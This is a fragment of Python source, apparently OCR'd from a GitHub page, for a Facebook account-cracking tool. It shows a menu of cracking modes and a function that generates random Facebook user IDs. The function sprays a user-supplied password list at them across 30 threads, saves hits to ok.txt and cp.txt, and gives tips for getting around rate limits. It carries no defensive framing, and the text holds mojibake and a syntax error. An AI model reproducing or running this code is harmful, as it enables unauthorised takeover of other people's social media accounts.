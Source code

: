 		print("%s [%s2%s]%s CRACK FB ID 2015-22 %s"%(G,R,G,Y,G))
		print("%s [%s3%s]%s CRACK FROM NUMBER  %s"%(G,R,G,Y,G))
		print("%s [%s4%s]%s CRACK FB ID 2004-5%s"%(G,R,G,Y,G))
		print("%s [%s5%s]%s CRACK FROM EMAILS %s"%(G,R,G,Y,G))
		print("%s [%s6%s]%s CRACK FB ID CUSTOM %s"%(G,R,G,Y,G))
		print("%s [%s7%s]%s FOLLOW ME ON FACEBOOK %s"%(G,R,G,Y,G))
		print("\033[97;1m   éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬")
		print("\033[92;5m         GIVE RESPECT     GET RESPECT    ")
		print("\033[97;1m   éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬éˆ¹â‚¬")
		hoga = input("\n%s [?] CHOICE : "%(Y))
		if hoga in ["", " "]:
			Main()
		elif hoga in ["1", "01"]:
			self.fbtua()
		elif hoga in ["2", "02"]:
				self.old4_7()
		elif hoga in ["3", "03"]:
				self.old4_6()
		elif hoga in ["4", "04"]:
				self.old4_5()
		elif hoga in ["5", "05"]:
				self.email()
		elif hoga in ["6","06"]:
				self.oldcrack()
		elif hoga in ["7", "07"]:
			os.system('am start https://www.facebook.com/EmamulhossainShuvo)
		else:
			Main()

	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000"
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;97m(50000MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(G))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;96m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
